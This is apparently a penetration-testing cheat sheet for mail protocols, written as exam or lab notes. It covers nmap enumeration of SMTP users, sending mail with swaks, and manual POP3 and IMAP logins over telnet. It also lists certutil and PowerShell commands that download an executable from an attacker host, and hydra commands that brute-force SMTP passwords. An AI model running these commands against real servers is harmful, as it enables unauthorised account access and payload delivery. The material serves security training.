 ## 🧠 **SMTP Enumeration & Pentesting Cheat Sheet**

---

### 🔍 **Basic Enumeration with Nmap**
```
nmap -sV -p 25,110,143,587 <target-ip>
```

- `25`, `587`: SMTP
- `110`: POP3
- `143`: IMAP

```
nmap -p 25 --script smtp-commands,smtp-enum-users <target-ip>
```

### 📤 **SMTP – Sending Emails**

**Using `swaks` (Swiss Army Knife for SMTP):**
```
swaks --to Dave.Wizard@supermagicorg.com \
      --from test@supermagicorg.com \
      --server <target-ip> \
      --auth LOGIN \
      --auth-user test@supermagicorg.com \
      --auth-password test \
      --data "Subject: Test\n\nThis is just a test email."

```

**One-liner with attachment:**
```
swaks --to Dave.Wizard@supermagicorg.com --from test@supermagicorg.com --server <ip> --auth LOGIN --auth-user test@supermagicorg.com --auth-password test --attach /path/to/file.txt
```

✅ _Status codes like `250 OK` and `235 authenticated` mean success._

### 📥 **Reading Emails**

- SMTP is **only for sending** emails.
- For **reading**, use:
    - **POP3 (Port 110)** – Downloads and removes from server
    - **IMAP (Port 143)** – Syncs with server


🛠 **Command-line tools to read emails:**

- `telnet <ip> 110` or `telnet <ip> 143`
- `openssl s_client -connect <ip>:110` (POP3s) or `:993` (IMAPs)
- `fetchmail`, `imap-client`, or `mailsync`
---

### 🔓 **Manual IMAP/POP3 Authentication**

**POP3 with Telnet:**
```
telnet <ip> 110
USER test@supermagicorg.com
PASS test
LIST
RETR 1
```
**IMAP with Telnet:**
```
telnet <ip> 143
a login test@supermagicorg.com test
a select inbox
a fetch 1 body[text]
```


### 🔐 **Attachment Handling**

Swaks can send attachments:
```
swaks --attach /path/to/file.txt
```

Windows download methods:
- `certutil.exe -urlcache -f http://<ip>/file.exe file.exe`
- PowerShell:

```
Invoke-WebRequest -Uri http://<ip>/file.exe -OutFile file.exe
```
### 🧪 **Testing Email Existence**

- If recipient doesn't exist and SMTP is correctly configured, server will reject:
```
250 OK   <- Valid user
550 No such user here <- Invalid user
```

🔓 **Hydra SMTP Brute Force Example**
```
hydra -L users.txt -P passwords.txt smtp://<target-ip> -V
```
🧪 **If Port 587 is Used (TLS SMTP)**
```
hydra -L users.txt -P passwords.txt -s 587 -S smtp://<target-ip> -V
```

![Alt text](https://raw.githubusercontent.com/aryansofficial/OSCP-kali/main/Protocol%20Exploitation/Pasted%20image%2020250421004929.png)
Note this hydra command failed many times before working because of time out
